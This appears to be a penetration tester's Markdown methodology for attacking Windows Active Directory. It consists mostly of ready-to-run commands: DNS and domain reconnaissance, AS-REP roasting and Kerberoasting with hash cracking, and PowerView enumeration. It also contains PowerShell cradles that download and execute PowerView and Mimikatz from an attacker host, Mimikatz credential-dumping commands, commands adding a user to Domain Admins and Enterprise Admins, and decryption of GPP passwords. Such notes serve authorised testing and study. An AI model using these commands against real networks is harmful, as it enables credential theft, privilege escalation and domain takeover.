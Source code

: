 # Methodology

## Reconnaissance

### Local Network

```bash
# Find the PDC
dig srv _ldap._tcp.pdc._msdcs.$FQDN_DOMAIN

# Find the DC
dig srv _ldap._tcp.dc._msdcs.$FQDN_DOMAIN

# Find the GC (Group Catalog, i.e. DC with extended data)
dig srv gc._msdcs.$FQDN_DOMAIN

# Other ways to find services hosts that may be DCs 
dig srv _kerberos._tcp.$FQDN_DOMAIN
dig srv _kpasswd._tcp.$FQDN_DOMAIN
dig srv _ldap._tcp.$FQDN_DOMAIN

# Reverse lookup
dig -x $IP

# Enumerate DNS (similar to zone transfer) with any valid user creds
crackmapexec smb -u $USERNAME -p $PASSWD -d $DOMAIN -M enum_dns

# Zone Transfer
dig axfr @$IP $FQDN_DOMAIN

# Manually inspect DHCP broadcast and multicast packets
```

### Remote

```bash

```

## Enumeration

### Kali Commands

```bash
# AS-REP roast
impacket-GetNPUsers -request -dc-ip $IP -outputfile hashes.asreproast $DOMAIN/
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force

# Kerberoast
impacket-GetUserSPNs -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER:$PASS
impacket-GetUserSPNs -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER -hashes ':$NTLM'
hashcat hashes.kerberoast /usr/share/wordlists/rockyou.txt --force

# Convert net user output to user list
tr -s ' ' '\n' < users.txt | sed '/^$/d'
```

With valid credentials for a domain user, we can first enumerate the domain remotely with [PowerView.py](https://github.com/aniqfakhrul/powerview.py)

**Note:** This can miss custome attributes compared to running PowerView locally

```bash
# Connect
powerview --dc-ip $IP $DOMAIN/$USER:$PASS@$IP
powerview --dc-ip $IP $DOMAIN/$USER@$IP -H ':$NTLM'

# Identify DC
Get-NetDomain

# Enumerate user objects
Get-NetUser -Select samaccountname
Get-NetUser -Properties samaccountname,description,memberof -TableView
Get-NetUser $USER
Get-NetGroup -Where 'member contains $USER' -Select cn

# Enumerate group objects
Get-NetGroup -Properties cn,member -TableView
Get-NetGroup $GROUP

# Enumerate Computer objects
Get-NetComputer -Properties dnshostname,operatingsystem,operatingsystemversion -TableView

# Check for logged-in users (DOES NOT WORK CURRENTLY, RUN LOCALLY)
# Get-NetSession -Computer $COMPUTER

# Find hosts on the local domain where the current user has local administrator access (DOES NOT WORK CURRENTLY, RUN LOCALLY)
# Find-LocalAdminAccess

# Enumerate SPNs linked to users
Get-NetUser -SPN -Properties samaccountname,serviceprincipalname -TableView

# Retrieve the ACL for the specified object (DOES NOT WORK CURRENTLY, RUN LOCALLY)
# Get-ObjectAcl -Identity $OBJECT -Select SecurityIdentifier,ActiveDirectoryRights -TableView
# Get-ObjectAcl -Identity $OBJECT -Where 'ActiveDirectoryRights eq GenericAll' -Select SecurityIdentifier,ActiveDirectoryRights -TableView

# Enumerate domain shares (DOES NOT EXIST CURRENTLY, RUN LOCALLY)
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

### Local Access

Once we have local access, we can run **[BloodHound](1%20Tools/BloodHound.md)**

**PowerView**

```powershell
# Import PowerView
iex(new-object net.webclient).downloadstring("http://$OUR_IP/PowerView.ps1")

# Idenfity DC (check Pdc)
Get-NetDomain

# Enumerate user objects
Get-NetUser | select samaccountname,description,memberof
Get-NetUser $USER

# Enumerate group objects
Get-NetGroup | select cn,member
Get-NetGroup $GROUP | select cn,member
Get-NetGroup -UserName $USER | select cn

# Enumerate Computer objects
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

# Check for logged-in users
Get-NetSession -Computer $COMPUTER

# Find hosts on the local domain where the current user has local administrator access
Find-LocalAdminAccess

# Enumerate SPNs linked to users
Get-NetUser -SPN | select samaccountname,serviceprincipalname

# Retrieve the ACLs for the specified object
Get-ObjectAcl -Identity $OBJECT | select SecurityIdentifier,ActiveDirectoryRights
ConvertFrom-SID $SID
Get-ObjectAcl -Identity $OBJECT | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"$SID","$SID" | ConvertFrom-SID

# Enumerate domain shares
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

**Manual**

```powershell
# Print users within the current domain
net user /domain

# Check domain user information
net user offsec /domain

# Check password policy
net accounts

# Check domain groups
net group /domain
net group "$GROUP" /domain

# Add and remove "setphanie" from "Management Department"
net group "Domain Admins" mojo /add /domain
net group "Enterprise Admins" mojo /add /domain
```

### Tools

**[Mimikatz](1%20Tools/Local/Mimikatz.md)**

[Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

```bash
# Credentialed Enumeration
.\mimikatz.exe
iex(new-object net.webclient).downloadstring("http://$OUR_IP/Invoke-Mimikatz.ps1")

privilege::debug
token::elevate
log
sekurlsa::logonpasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
token::revert
exit

# DPAPI
vault::list
```

**[gpp-decrypt](1%20Tools/gpp-decrypt.md)**

Decrypts GPP credentials. Typically found in files like `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml`, and `Drives.xml`.

Key things to look for:

- **File Location:** GPP files are usually found in the `SYSVOL` folder on a domain controller, under the path `\\[DOMAIN]\SYSVOL\[DOMAIN]\Policies\`.
- **cpassword Attribute:** Within these XML files, look for the `cpassword` attribute. This attribute holds the encrypted form of the password.
- **XML Structure:** The structure of the XML file can give you a hint. For example, in a `Groups.xml` file, you might see something like:

```xml
<Group ...>
  <Properties ... cpassword="EDUYJgCbgCAmO5E..." ... />
</Group>
```

Decrypt with:

```bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

**[Rubeus](1%20Tools/Local/Rubeus.md)**

Crack associated hashes in hashcat

```bash
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
